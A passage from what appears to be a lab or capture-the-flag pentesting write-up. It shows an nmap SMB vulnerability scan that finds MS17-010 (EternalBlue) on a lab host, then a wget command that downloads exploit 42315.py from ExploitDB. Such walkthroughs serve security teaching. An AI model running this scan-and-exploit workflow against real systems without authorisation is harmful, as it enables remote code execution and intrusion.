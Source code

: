 Another thing to check for when pentesting SMB, is SMB related vulnerabilites. This can be performed using nmap by executing `nmap 10.10.10.40 -p 139,445 --script=smb-vuln*`, as demonstrated below.

{% highlight none linenos %}
kali@kali:/tmp/x$ @@nmap 10.10.10.40 -p 139,445 --script=smb-vuln*@@
[...]
Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| @@@smb-vuln-ms17-010:@@@ 
|   @@@VULNERABLE:@@@
|   @@@Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)@@@
|     @@@State: VULNERABLE@@@
|     @@@IDs:  CVE:CVE-2017-0143@@@
|     @@@Risk factor: HIGH@@@
|       @@@A critical remote code execution vulnerability exists in Microsoft SMBv1@@@
|        @@@servers (ms17-010).@@@
|           
|     @@@Disclosure date: 2017-03-14@@@
|     @@@References:@@@
|       @@@https://technet.microsoft.com/en-us/library/security/ms17-010.aspx@@@
|       @@@https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143@@@
|_      @@@https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/@@@

Nmap done: 1 IP address (1 host up) scanned in 14.01 seconds
kali@kali:/tmp/x$
{% endhighlight %}

From the output of the command, we can see that nmap discovers that the host is vulnerable to [CVE-2017-0144](https://nvd.nist.gov/vuln/detail/cve-2017-0144) which is the famous [EternalBlue](https://en.wikipedia.org/wiki/EternalBlue) vulnerability. The next step is to locate an exploit for this vulnerability. A good source for finding exploits is [ExploitDB](https://www.exploit-db.com/). If we search on google for exploits related to EternalBlue and ExploitDB, we can find a [relevant exploit](https://www.exploit-db.com/exploits/42315), as can be seen below.

![google](/assets/{{ imgDir }}/google.png)

{% highlight none linenos %}
kali@kali:/tmp/x$ @@wget https://www.exploit-db.com/raw/42315 -O 42315.py@@
[...]
Saving to: ‘42315.py’

42315.py                         [  <=>                                        ]  40.98K   150KB/s    in 0.3s    

2021-12-11 10:30:13 (150 KB/s) - @@@‘42315.py’ saved [41968]@@@

kali@kali:/tmp/x$
{% endhighlight %}
